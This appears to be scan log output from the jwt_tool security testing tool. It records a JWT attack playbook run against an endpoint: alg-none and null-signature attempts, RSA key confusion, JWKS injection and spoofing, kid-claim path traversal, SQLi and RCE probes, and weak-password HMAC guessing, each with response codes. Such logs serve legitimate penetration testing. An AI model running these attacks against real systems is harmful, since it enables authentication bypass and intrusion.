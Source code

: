 ```bash
jwttool_9eaa9c5d73ebd3d30b4ddff9718f3e61 Prescan: no token Response Code: 404, 58 bytes
jwttool_fede97d0461d058f65638ffcb0ff51d6 Prescan: Broken signature Response Code: 200, 183 bytes
jwttool_4601d29d02c1e1b4b130411af27a62e5 Prescan: repeat original token Response Code: 200, 183 bytes

LAUNCHING SCAN: JWT Attack Playbook
jwttool_fede97d0461d058f65638ffcb0ff51d6 Broken signature Response Code: 200, 183 bytes
jwttool_4601d29d02c1e1b4b130411af27a62e5 Persistence check 1 (should always be valid) Response Code: 200, 183 bytes
jwttool_91b7097f91fbb6d5fadbafdfeaff5503 Claim processing check in sub claim Response Code: 404, 58 bytes
jwttool_3c997fb1f947918705c75167ac2f8d57 Claim processing check in role claim Response Code: 200, 183 bytes
jwttool_545a2e3bae7be053f59e759aaa3d5dc3 Claim processing check in iat claim Response Code: 404, 58 bytes
jwttool_34db010197d1494f70a702d6560408b9 Claim processing check in exp claim Response Code: 404, 58 bytes
jwttool_4601d29d02c1e1b4b130411af27a62e5 Persistence check 2 (should always be valid) Response Code: 200, 183 bytes
jwttool_a9e3d385b5ae5f0d3ccc370dd8e5fb58 Exploit: Blank password accepted in signature (-X b) Response Code: 200, 183 bytes
jwttool_18eff8781206a5802cd918194ea26d2b Exploit: Null signature (-X n) Response Code: 404, 58 bytes
jwttool_83d9286c4bb2a29630123d885a90f5cb Exploit: "alg":"none" (-X a) Response Code: 200, 183 bytes
jwttool_eb1c053070ec208da14a7cc93a86a878 Exploit: "alg":"None" (-X a) Response Code: 404, 58 bytes
jwttool_f5cc332ddadba6b7728ae7608805495c Exploit: "alg":"NONE" (-X a) Response Code: 404, 58 bytes
jwttool_84844f61d8d5e6b0da931427d11e76fc Exploit: "alg":"nOnE" (-X a) Response Code: 404, 58 bytes
File loaded: /root/.jwt_tool/jwttool_custom_public_RSA.pem
jwttool_4cb7193ec1d3ed422543da4e4a15dcd2 Exploit: RSA Key Confusion Exploit (provided Public Key) Response Code: 200, 183 bytes
key: /root/.jwt_tool/jwttool_custom_private_RSA.pem
jwttool_48bfd14a3a506eea67df16354d89a918 Exploit: Injected JWKS (-X i) Response Code: 200, 183 bytes
jwttool_5fbfee561367c71a33ff03dcc461daf4 Exploit: Spoof JWKS (-X s) Response Code: 200, 183 bytes
HTTP response took about 10 seconds or more - could be a sign of a bug or vulnerability
jwttool_827e6eb062c12aa9c947a99719669d62 Injected kid claim - null-signed with blank kid Response Code: 200, 183 bytes
jwttool_1bdcd556fc0ea3ce33030df4bc910449 Injected kid claim - null-signed with kid="[path traversal]/dev/null" Response Code: 200, 183 bytes
jwttool_f10ff2ae68897292901004d1305033f4 Injected kid claim - null-signed with kid="/dev/null" Response Code: 200, 183 bytes
jwttool_cfd1577d61be5d05ba91a3d50d545450 Injected kid claim - null-signed with kid="/invalid_path" Response Code: 200, 183 bytes
jwttool_c57447e4fbfd40e1ca36d3872f46af48 Injected kid claim - RCE attempt - SLEEP 10 (did this request pause?) Response Code: 200, 183 bytes
jwttool_b6e3149438e0d65f12cf8246e7e0e1b3 Injected kid claim - signed with secret = '1' from SQLi Response Code: 200, 183 bytes
External service interactions not tested - enter listener URL into 'jwtconf.ini' to try this option
jwttool_0f77d33694f4b348597fc84c9bc5fb3d Checking for alternative accepted HMAC signatures, based on common passwords. Testing: secret Response Code: 200, 183 bytes
jwttool_35e44c13a0723ea69e5d308a2914db50 Checking for alternative accepted HMAC signatures, based on common passwords. Testing: ... Response Code: 200, 183 bytes
jwttool_d23210566f196b2500bf1de9f6b290c2 Checking for alternative accepted HMAC signatures, based on common passwords. Testing: 012345678901234567890123456789XY Response Code: 200, 183 bytes
jwttool_3dc0b1e62452946899a6363f4d29664a Checking for alternative accepted HMAC signatures, based on common passwords. Testing: 12345 Response Code: 200, 183 bytes
jwttool_1fc2664d7a2c2bde3121a98e9c3e5c9e Checking for alternative accepted HMAC signatures, based on common passwords. Testing: 12345678901234567890123456789012 Response Code: 200, 183 bytes
jwttool_8e143ee71909e3d5c406e8ac5c545b40 Checking for alternative accepted HMAC signatures, based on common passwords. Testing: 61306132616264382D363136322D343163332D383364362D316366353539623436616663 Response Code: 200, 183 bytes
```